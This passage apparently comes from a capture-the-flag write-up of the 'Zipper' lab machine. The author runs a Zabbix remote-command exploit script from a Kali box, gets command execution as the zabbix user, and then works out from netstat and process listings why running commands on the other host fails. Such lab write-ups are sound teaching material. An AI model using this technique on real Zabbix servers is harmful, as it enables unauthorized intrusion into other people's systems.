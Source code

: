Now I can run with a shell on Zipper:

```

root@kali# python 39937.py 
[zabbix_cmd]>>:  id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
[zabbix_cmd]>>:  hostname
zipper

```

### Still Run on Zabbix

The next logical step would be to change the host id to 10105 and run commands on Zabbix. That should work, but it doesn’t:

```

root@kali# python 39937.py 
[zabbix_cmd]>>:  hostname
Traceback (most recent call last):
  File "39937.py", line 76, in <module>
    print cmd_exe["result"]["value"]
KeyError: 'result'

```

Why? I’ll switch `execute_on` back to “1” and check out Zabbix again.

When I tell Zabbix to execute on the Zabbix agent, it contacts the agent listening on port 10050 with the command. But it looks like the Zabbix host doesn’t have anything listening on 10050:

```

[zabbix_cmd]>>:  netstat -plnt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::10051                :::*                    LISTEN      -

```

If I look at running processes on Zipper, I see these `/usr/sbin/zabbix_agentd` processes:

```

zabbix     676  0.0  0.5  17152  5452 ?        Ss   15:00   0:00 /usr/sbin/zabbix_agentd --foreground
zabbix     733  0.0  0.2  17152  2576 ?        S    15:00   0:00 /usr/sbin/zabbix_agentd: collector [idle 1 sec]
zabbix     734  0.0  0.0  17152   684 ?        S    15:00   0:00 /usr/sbin/zabbix_agentd: listener #1 [waiting for connection]
zabbix     735  0.0  0.3  17152  3564 ?        S    15:00   0:00 /usr/sbin/zabbix_agentd: listener #2 [waiting for connection]
zabbix     736  0.0  0.3  17152  3540 ?        S    15:00   0:00 /usr/sbin/zabbix_agentd: listener #3 [processing request]
zabbix     737  0.0  0.2  17152  2928 ?        S    15:00   0:00 /usr/sbin/zabbix_agentd: active checks #1 [idle 1 sec]

```